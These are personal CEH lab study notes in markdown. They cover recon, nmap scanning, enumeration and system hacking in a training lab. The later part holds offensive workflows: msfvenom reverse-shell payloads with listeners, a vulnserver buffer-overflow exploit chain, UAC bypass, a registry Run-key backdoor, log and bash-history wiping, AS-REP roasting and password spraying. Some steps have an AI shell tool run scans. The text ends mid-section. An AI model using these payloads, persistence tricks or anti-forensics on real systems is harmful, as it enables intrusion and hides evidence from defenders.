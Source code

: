 # CEH-practice-notes
# Reconnasiance/Footprinting
<details>
  <summary>To find the subdomain</summary>

* nmap to find subdomain
```console
:~$ nmap -p 53 --script dns-brute <domain>
``` 
* google
```console
  :~$ site:example.com -inurl:www
```
* sublist3r
```console
  :~$ sublist3r -d example.com -o sublist3r_subs.txt
```
* some research websites
```console
  :~$ netcraft
      DNS dumpster
      pentest-tools.com
      SHODAN
```
* Collects open-source intelligence (OSINT) about domains, IPs, hosts, and people
```console
  :~$ recon-ng
  ```  
</details>

<details>

  <summary>social media recon by using sherlock</summary>

* sherlock
```console
:~$ sherlock "user name"
```
</details>

<details>

 <summary>Whois lookup</summary>

 * domaintools 
 (gives info regard a owner ph no and email)
 ```console
:~$ https://whois.domaintools.com
```

* nslookup(DNS lookup) <#windows>
```console
:~$nslookup
set type = a
( a >> configures nslookup to query for the IP address of a given domain.)
(shows non authorative result but we need authorative name so)

set type=cname
cnmae >>  lookup is done directly against the domain's authoritative name server 

set type=a
and get the name server ip

```
* nslookup website
```console
:~$ http://www.kloth.net/services/nslookup.php
```
</details>

<details>

 <summary>to trace a email</summary>

* Email tracker pro
```console
:~$ Install email tracker pro from the directory of a lab 
    and copy down the email header you want to track
```

</details>


<details>

 <summary>network footprinting</summary>

* tracert<#windows> traceroute<#linux>(helps in mapping the nw hosts)
```console
:~$ tracert www.target.com
tracert /? (help)
tracert -h 5 www.target.com
(-h > number of hopes)
```
* traceroute(linux)
```console
:~$ traceroute www.targetdomain.com
(to check ip)whois [ip]
```
</details>

<details>
<summary>recon-ng</summary>

* recon-ng 
```console
:~$recon-ng
   help
   marketplace install all

  (then to create workspace)
  workspace create CEH
  wrokspace list
  ```
  * To add the domain to workspaces
  ```console
  :~$ (help  for options)
  db insert domains(take you to the workspace interface)
  1.certifiedhacker.com
  2.hit enter
  show domains
  ```
* To search and load modules
```console
:~$ modules load brute (to get host related to target domain)
  modules load (desired modules for brute)
  run
  back

  modules load reverse_resolve
  modules load(desired module)
  show hosts(shows all hosts which is harvested)
```
* then to reporting
```console
:~$ modules load reporting
  modules load reporting/html
  options list(list options)
  options set FILENAME
              CUSTOMERNAME
              CREATOR
```
* then to get the contact of the domain
```console
:~$ modules load whois_pocs
  command info(to see a module interface,to set data)
  options set SOURCE facebook.com
  run

```
* to extract subdomains and IP
```console
:~$ module load recon/domains-hosts/hackertarget
options list
options set SOURCE certifiedhacker.com
run
```
</details>

<details>
<summary>recon by AI</summary>

* reconniassance with AI
```console
:~$sgpt --chat recon --shell "t organization. To do so, run sgpt --chat footprint --shell "Use theHarvester to gather email accounts associated with 'microsoft.com', limiting results to 200, and leveraging 'baidu' as a data source"
```
</details>

<details>
<summary>BillCipher</summary>

* Use this tool to get passive info of many details of org
```console
:~$sudo apt update && sudo apt install ruby python python-pip python3 python3-pip
sudo apt install httrack whatweb
git clone https://github.com/GitHackTools/BillCipher
cd BillCipher
pip install -r requirements.txt
pip3 install -r requirements.txt
python3 billcipher.py
```
</details>







# Scanning Networks
<details>
<summary>Host discovery</summary>

* Host discovery by
ARP ping scan
UDP ping scan
ICMP ping scan (ICMP ECHO ping, ICMP timestamp, ping ICMP, and address mask ping)
TCP ping scan (TCP SYN ping and TCP ACK ping)
IP protocol ping scan

```console
:~$ nmap -sn -PR [target ip]

-sn>>no port scan
-PR>>arp ping scan
```
* UDP ping scan
```console
:~$ nmap -sn -PU [target IP]
-PU>>UDP scan
```
* ICMP echo ping scan
```console
:~$ nmap -sn -PE [IP address]
PE>>ICMP echo ping scan
```
* ICMP ping sweep 
``` console
:~$ nmap -sn -PE [Range of IP address]
```
* ICMP timestamp ping scan
```console
:~$ nmap -sn -PP [IP address]
-PP>>timestamp ping scan
```
* Other scanning technique
```console
:~$nmap -sn -PM [ip address]
PM>>ICMP address mask ping scan

#########################################
nmap -sn -PS [target ip]
PS>>TCP SYN Ping Scan
#########################################
nmap -sn -PA [target ip]
-PA>>TCP ACK Ping Scan
########################################
nmap -sn -PO [ip address]
-PO>>IP Protocol Ping Scan(sends every protocols and send back the response)
```
</details>
<details>

<summary>Port and service discovery</summary>

* here using zenmap
```console
:~$ nmap -sT -v [target ip]
-sT>>TCP connect/full open scan
-v>>verbose
```
* To scan firewall enabled machine(bypass firewall)
```console
:~$nmap -sS -v [ip address]
-sS>>stealth scan
```
* xmass scan (sends urg psh fin)
```console
:~$nmap -sX -v [ip address]
-sX>>xmas scan
```
* maimon scan (ack+fin)
```console
:~$ nmap -sM -v [ip address]
-sM>>maimon scan
```
* by ACk flag
```console
:~$ nmap -sA -v [ip address]
-sA>>ack probe scan
```
* UDP scan (firewall is off)
```console
:~$nmap -sU -v [ip address]
-sU>>UDP scan
```
* other port and application scanning meathods
```console
:~$nmap -sI -v [target IP address]
-sI>>IDLE/IPID Header Scan
#############################
nmap -sY -v [target IP address]
-sY>>SCTP init scan
#############################
nmap -sZ -v [target IP address]
-sZ>>SCTP COOKIE ECHO Scan
```
</details>
<details>
<summary>Version scan/agressive scan</summary>

* version
```console
:~$nmap -sV [ip address]
-sV>>version scan
##############################
nmap -A 10.10.1.* (* do all subnet scan)
-A>>agressive scan
(performs -sV -O -sC(script scanning) --traceroute)
```
</details>
<details>
<summary>OS discovery</summary>

* os discovery using nmap script engine(NSE)>>using -O -A NSE
```console
:~$nmap --script smb-os-discovery.nse [ip address]
```
</details>

<details>
<summary>Scan beyond the IDS & firewll</summary>

* By fragmenting the packet

```console
:~$ nmap -f [ip address]
-f>>fragment

```
* Source port manipulation
```console
:~$ nmap -g 80 [ip address]
-g ,--source-port >> source port manipulation
```
* MTU(maximum transmission unit)
```console
:~$ nmap -mtu 8 [ip adress]
-mtu>>maximum transmision unit(which is send smaller data packets 8 bytes)
```
* Decoy(random ip adress)
```console
:~$ nmap -D RND:10 [ip address]
-D>>decoy
RND>>random ip count
```
* MAC spoofing
```console
:~$ nmap -sT -Pn --spoof-mac 0 [ip address]
-sT>>TCP full scan
-Pn>>no host discovery
--spoof-mac 0>>gives legitimate mac address in the network
```
</details>
<details>
<summary>Scan a target network using metasploit</summary>
```console
:~$ open the msfconsole
nmap -sP -sS -A -oX test [ip/24](subnetmask)
-oX>>output to xmp file names test
```

* by metasploit madules
```console
:~$ search port scan (shows all module related to port scan)
use auxilary/scanner/portscan/syn
show options and set values
run
###############################
same scanned for TCP (same module with tcp at last)
set target ip(RHOSTS)

#found 445 open port so scanning smb version
use auxilary/scanner/smb/smb_version 
set RHOSTS [ip range]
threads 11

```
</details>
<details>
<summary>Scanning network using sgpt</summary>

```console
:~$ sgpt --chat scan --shell "prompt (by using HPING3")
```

</details>





# Enumeration
<details>
<summary>Netbios enumeration</summary>

* nbtstat

```console
:~$ nbtstat -a [ip address]
-a>>displays the NetBIOS name table of a remote computer.



nbtstat -c 
-c>> displays the cashe of netbios



net use
>>shows active connection
```

</details>

<details>

<summary>SNMP enumeration using tools</summary>

* SnmpWalk]
```console
:~$ snmpwalk -v1 -c public <Ip address>
-v1>>version of snmp
-c>>community string(public/private)

#for v2 snmp

snmpwalk -v2c -c public <ipaddress>
-v2c>>version
```
</details>

<details>
<summary>LDAP enumaration</summary>

* By using AD explorer
```console
:~$open exe file in explorer
```
</details>
<details>
<summary>NFS enumeration</summary>

* by using nmap
```console
:~$ nmap -p 2049 [ip addr] 
-p>> to specify port

to check target is NFS is enabled or not
(to enable it in target device use server manager)


than open super enum tool 
create a file included target ip as Target.txt
#echo "target ip" >> target.txt
 next

./superenum

(If you get an error running the ./superenum script, execute chmod +x superenum command, then repeat Step#13.)
```

* by RPCScan
```console
:~$ cd RPCScan
python3 rpc-scan.py [Target IP address] --rpc
--rpc>> lists the RPC (portmapper)
```
</details>
<details>
<summary>DNS enumeration using zone transfer</summary>

* By using dig command
```console
:~$ dig ns [target domain]
ns>>shows the name server
```
* To check it has zone transfer or not
```console
:~$ dig @ [name server] [target domain] axfr
axfr >> retrives zone transfer info
```
* By using nslookup
```console
:~$ nslookup
set querytype=soa

soa>>sets the query type to SOA (Start of Authority) record to retrieve administrative information about the DNS zone of the target domain certifiedhacker.com.

then in interactive mode

ls -d [name server]
## this command checks is domain supoort zone tarnsfer or not
```
</details>

<details>
<summary>SMTP enumeration</summary>

* Usimg nmap
```console
:~$ nmap -p 25 --script=smtp-enum-users [ip]
##shows all the mail users
## to check the script >> nmap --script-help 'http-*' | less


nmap -p 25 --script=smtp-open-relay [target IP]    

```
</details>

# Vulnerability Analysis
<details>

<summary>Research on CWE (common weakness enumeration)</summary>

* Research CWE website
```console
:~$ cwe.mitre.org
aslo can check access content >> cwe list
```
</details>
<details>
<summary>OpenVAS</summary>

* Vulnerability analysis using OpenVAS
```console
:~$ to open OPENVAS 
parrot cmd >> 
docker run -d -p 443:443 --name openvas mikesplain/openvas
then http://127.0.0.1
passward:admin admin
```
</details>
<details>
<summary>Using AI </summary>

* Perform Vulnerability Analysis using AI
```console
:~$ sgpt --chat nikto --shell "Scan the URL https://www.certifiedhacker.com to identify potential vulnerabilities with nikto"


 sgpt --chat vuln --shell "Perform vulnerability scan on target url http://www.moviescope.com with Nmap with port 80"

 ```

 ## by using skipfish (website)
 ```console
 :~$ sgpt --chat vuln --shell "Perform a vulnerability scan on target url http://testphp.vulnweb.com with skipfish" 
 open the saved html file with browser
 ```

</details>

# System Hacking
<details>

<summary>Crack the password using responder</summary>

* cmd to run responder
```console
~$:sudo responder -I eth0
-I>>interface

in target system run bar \\CEH-Tools
and in parrot copy the capture hash availed in responder
and in another sudo terminal
pluma hash.txt n copy it here
```
//then decript using john
```console
~$:john hash.txt
```
</details>
<details>
<summary>Access remote system using Reverse shell generator</summary>

* Enable reverse shell
```console
~$:docker run -d -p 80:80 reverse_shell_generator
```
* firefox >> http://localhost
```console
~$:In the IP field, type [attacker sys ip] as listener IP and in the Port field, type 4444 as listener port.

and copy the msfvenom cmd in the same window and paste it in cmd (windows meterpreter reverse TCP)

We will start a listener using Reverse Shell Generator, to do so, switch to the browser window and select msfconsole as Type from the drop-down under Listener.
and copy the code >> paste it in cmd >> listner will start

In attacker system go to file (ctrl L) and type smb://10.10.1.11 to get win 11 files 
Navigate to CEHv13 Module 06 System Hacking and paste the copied reverse.exe file.

in victm machine navigate to CEH tool and copy the reverse.exe and copy it to desktop
double click it (exe)

```

* After session created
```console
~$: getuid (to get the user details)
```

* Now by powershell script
```console
~$: in firefox reverse shell page select PowerShell IEX and change port to 444 and copy the code

and in new su cmd 
pluma shell.ps1 and copy the code and save

and now we have to create a hoaxshell listner for that
back to reverseshell browser window and input 444 as port and select hoaxshell
copy paste it in cmd and enter


now copy the shell file wee created and paste it in wind 11 cehtool folder by smb://10.10.1.11
in winn 11 navigate to this file and paste it in win 11 desktop
```

* open powershell as a admin
then type
```console
~$: cd C:\Users\Admin\Desktop
and run .\"filename"
>>to run a file in victim machine
```
</details>
<details>
<summary>Perform Buffer Overflow Attack to Gain Access to a Remote System</summary>

* download vulnserver from module6 file and run
* and also install immunity debugger and run it as admin
```console
~$:click file in the menu bar
and click attach n attach the vulnserver
then run it (play button at top)
```
* shift to parrot
```console
~$:nc -nv 10.10.1.11 9999
-n >> dont try to resolve hostname with dns, use the ip exactly as given

type HELP
```
* Generate spike template and performing spiking
//to create a spike template on STATS function
```console

~$: pluma stats.spk and type the following cmd

s_readline();

s_string("STATS ");

s_string_variable("0");
```
* to send the package to vulberable server
```console
~$: generic_send_tcp 10.10.1.11 9999 stats.spk 0 0
here STATS fn is not vulnerable to bufferoverflow
```
* so we will perform TRUN function
```console
~$:pluma trun.spk
and type
s_readline();

s_string("TRUN ");

s_string_variable("0");
```
* run
```console
~$: generic_send_tcp 10.10.1.11 9999 trun.spk 0 0
```
* Now performing FUZZING
```console
~$:navigate to ceh tools and buffer over flow file copy script file and paste it in desktop
now perform python script to perform fuzzing

navigate to cd /home/attacker/Desktop/Scripts/
```
execute
```console
~$:chmod +x fuzz.py
./fuzz.py
```
* pattern create by ruby tool (in a same script file)
```console
~$:in linux cmd >> /usr/share/metasploit-framework/tools/exploit/pattern_crteate.rb -l 1040
-l>>leangth of a byte size

>>it creates some random piece of bytes
copy the characters
>>
paste it in
 pluma findoff.py (script file)
>>in bw offset ""

chmod +x findoff.py
./findoff.py
and open immunity debugger and notedown the EIP (offset value)
```
then
```console
~$: /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 10400 -q (offset value)
-q>>offset value
then close the cmd window
resrart the immunity devbugger and vuln server
```
then (in script file)
```console
~$: chmod +x overwrite.py
./overwrite.py
>> to overwrite EIP
```
* by bad chars
```console
~$: chmod +x badchars.py (in script folder)
./badchars.py

>> in immunity debugger click on ESP and follow in dump option
```
* Now we have to identify the right module of the vulnerable server (mona.py)
```console
~$: navigate to E:\CEH-Tools\CEHv13 Module 06 System Hacking\Buffer Overflow Tools\Scripts, copy the mona.py script, and paste it in the location in windows 11 C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands
```
nxt open immunity debugger
and type !mona modules in txt field of immunity debugger
observe that essfunc.dll have no memory protection

```console
~$: in unix cmd 
python3 /home/attacker/converter.py
Enter the assembly code here : prompt appears; type JMP ESP and press Enter.

here ffe4

In the Immunity Debugger window, type !mona find -s "\xff\xe4" -m essfunc.dll and press Enter in the text field present at the bottom of the window.

the address of vulnerable module you will found in first result


 Immunity Debugger window, click the Go to address in Disassembler icon (the arrow towards right)
in pop enter the address of vulnerable module (625011af)
run debugger

and in script file
chmod +x jump.py
./jump.py
>> which over right the EIP
```
* then to generate a shell code
```console
~$: msfvenom -p windows/shell_reverse_tcp LHOST=[Local IP Address] LPORT=[Listening Port] EXITFUNC=thread -f c -a x86 -b "\x00"

>>Here, -p: payload, local IP address: 10.10.1.13, listening port: 4444, -f: filetype, -a: architecture, -b: bad character.

copy the granted shellcode
and paste it in
pluma shellcode.py
add b in every line to convert string to bytes
```
then before running the command we have to create a listner by netcat
```console
~$: nc -nvlp 4444
and in script folder path
chmod +x shellcode.py
./shellcode.py
```
</details>
<details>

## Perform Privilege Escalation to Gain Higher Privileges 
<summary>Escalate privileges by bypassing UAC and exploiting Sticky Keys</summary>

* create a payload
```console
~$: msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/Windows.exe.

```
* create a folder in localhost in var directory
```console
~$: var >> mkdir share
Run chmod -R 755 /var/www/html/share command
Run chown -R www-data:www-data /var/www/html/share command
```
* Copy the payload into the shared folder by executing
```console
~$:cp /home/attacker/Desktop/Windows.exe /var/www/html/share/


Start the Apache server by executing service apache2 start command.
```
* Run metasploit
```console
~$: msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST<>
set LPORT <>


run the payload in victim machine
```
* now we will bypass the UAC by "FodHelper"
```console
~$:use exploit/windows/local/bypassuac_fodhelper
set session 1
set TARGET = 0
exploit
```

```console
~$: getsystem -t 1 and press Enter to elevate privileges.
```
* now using sticky keys module
```console
~$: post/windows/manage/sticky_keys
set session 2
exploit
proceed to mark user account and in lock screen hit sticky key 5 times 
whoami
```
</details>
<details>
<summary>Maintain Remote Access and Hide Malicious Activities</summary>

* User System Monitoring and Surveillance using Spyrix
```console
~$:Spyrix (GUI)
```
<summary> Maintain Persistence by Modifying Registry Run Keys</summary>

* create a payload
```console
~$: msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/Test.exe
```
>payload that needs to be uploaded into the Run Registry of Windows 11
```console
~$:msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=4444 -f exe > /home/attacker/Desktop/registry.exe

cp /home/attacker/Desktop/Test.exe /var/www/html/share/ and cp /home/attacker/Desktop/registry.exe /var/www/html/share/

start the apache2
```
>run metasploit
```console
~$: msfconsole
set payload windows/meterpreter/reverse_tcp
set lhost and lport
```
* Windows UAC protection evading
```console
~$: Windows UAC protection via SilentCleanup task present in Windows Task Scheduler. It is present in Metasploit as a bypassuac_silentcleanup exploit.

use exploit/windows/local/bypassuac_silentcleanup
set session 1
set TARGET 0
exploit
getsystem -t 1 (escalate previlage)
```
>to ingect malicious file
```console
~$:reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v backdoor /t REG_EXPAND_SZ /d "C:\Users\Admin\Downloads\registry.exe"

msfconsole in another cmd
 use exploit/multi/handler
 set payload windows/meterpreter/reverse_tcp
 set lport and lhost the same which is given to registry payload
 restart the victim machine
 ```
 </details>
 <details>
 <summary>Clear Logs to Hide the Evidence</summary>
 
 * Clear Windows Machine Logs using Various Utilities
 ```console
~$:download from file >> Clear_Event_Viewer_Logs.bat.
runs automatically and closes it cleares all trackes
```
> manually clearing logs through cmd
```console
~$:run cmd with administrater privilage and run
wevtutil el (shows all logs)
to clear system logs
wevtutil cl system (cl >> clear log)
```
> To hide the deleted file that auditor not to recover
```console
~$ cipher /w:[Drive or Folder or File Location]
cipher /w:c
>>it over writes the deleted file
```
* Clear Linux Machine Logs using the BASH Shell
```console
~$:export HISTSIZE=0 
>>command to disable the BASH shell from saving the history.
>>HISTSIZE: determines the number of commands to be saved, which will be set to 0.

```
```console
~$: history -c
clears the earlier used commands

history -w 
>> to delete the stored bash cmd 

shred ~/.bash_history
>>it will destroy the history

more ~/.bash_history
>> to view the shredded history
```
>we can perform all this bash clear in one single code
```console
~$shred ~/.bash_history && cat /dev/null > .bash_history && history -c && exit.
```
</details>
<details>
<summary>Perform Active Directory (AD) Attacks</summary>

* Perform Initial Scans to Obtain Domain Controller IP and Domain Name
```console
~$ nmap 10.10.1.0/24
>>to scan entire subnet and to find domain controller ip 
>>analyse the result that which ip having the LDAP 389/TCP and Kerberos 88/TCP port open that is over DC
```
```console
~$: Now scanning 10.10.1.22 / DC machine in more depth
nmap -A -sC -sV 10.10.1.22
-A >> Agressisve
_sC >> script (nmap script engine)
-sV >> Version/service detection
after this scan we can see domain name here its CEH.com
```
* Perform AS-REP Roasting Attack (to check which user dont enable DONT_REQUIRE_PREAUTH in DC)
```console
~$:cd to move into root
cd impacket/examples/ 
>> to get inside the directory
python3 GetNPUsers.py CEH.com/ -no-pass -usersfile /root/ADtools/users.txt -dc-ip 10.10.1.22.

>>GetNPUsers.py: Python script to retrieve AD user information.

>>CEH.com/: Target AD domain.

>>-no-pass: Flag to find user accounts not requiring pre-authentication.

>>-usersfile ~/ADtools/users.txt: Path to the file with the user account list.

>>-dc-ip 10.10.1.22: IP address of the DC to query.

here we found user johua have this "DONT_REQUIRE_PREAUTH"
```
```console
~$: copy the [hash]
and
echo '[HASH]' > joshuahash.txt. 
to store hashes inside the text file
```
>then crack the password
```console
~$:  john --wordlist=/root/ADtools/rockyou.txt joshuahash.txt.
```
</details>
<details>
<summary>Spray Cracked Password into Network using CrackMapExec</summary>

* CrackMapExec (with nmap scanned services like ldap rdp ftp etc)
```console
~$:here we are taking rdp (remote desktop protocol)
 cme rdp 10.10.1.0/24 -u /root/ADtools/users.txt -p "cupcake"

>>rdp: Targets the Remote Desktop Protocol (RDP) service.

>>10.10.1.0/24: IP address range to target, encompassing all hosts within the subnet 10.10.1.0 with a subnet mask of 255.255.255.0.

>>-u /root/ADtools/users.txt: Specifies the path to the file containing user accounts for authentication.

>>-p "cupcake": Password which we cracked using AS-REP Roasting to test against the RDP service on the specified hosts. 
found here mark is pewned
```
```console
~$: Remmina 
>>after the above step of CME (getting of user and password)
>>open Remmina in search bar in parrot os
```
</details>
<details>
<summary>Perform Post-Enumeration using PowerView</summary>

* Powerview
```console
~$:

